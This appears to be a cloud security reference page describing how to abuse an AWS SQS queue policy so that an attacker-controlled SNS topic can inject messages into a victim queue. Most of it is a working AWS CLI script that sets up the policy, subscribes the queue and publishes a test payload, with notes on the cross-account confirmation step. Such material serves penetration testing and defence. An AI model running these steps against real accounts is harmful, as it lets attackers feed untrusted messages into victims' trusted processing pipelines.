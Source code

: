 # AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

## Description

Abuse an SQS queue resource policy to allow an attacker-controlled SNS topic to publish messages into a victim SQS queue. In the same account, an SQS subscription to an SNS topic auto-confirms; in cross-account, you must read the SubscriptionConfirmation token from the queue and call ConfirmSubscription. This enables unsolid message injection that downstream consumers may implicitly trust.

### Requirements
- Ability to modify the target SQS queue resource policy: `sqs:SetQueueAttributes` on the victim queue.
- Ability to create/publish to an SNS topic under attacker control: `sns:CreateTopic`, `sns:Publish`, and `sns:Subscribe` on the attacker account/topic.
- Cross-account only: temporary `sqs:ReceiveMessage` on the victim queue to read the confirmation token and call `sns:ConfirmSubscription`.

### Same-account exploitation

```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
  "Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```

### Cross-account notes
- The queue policy above must allow the foreign `TOPIC_ARN` (attacker account).
- Subscriptions won’t auto-confirm. Grant yourself temporary `sqs:ReceiveMessage` on the victim queue to read the `SubscriptionConfirmation` message and then call `sns confirm-subscription` with its `Token`.

### Impact
**Potential Impact**: Continuous unsolid message injection into a trusted SQS queue via SNS, potentially triggering unintended processing, data pollution, or workflow abuse.


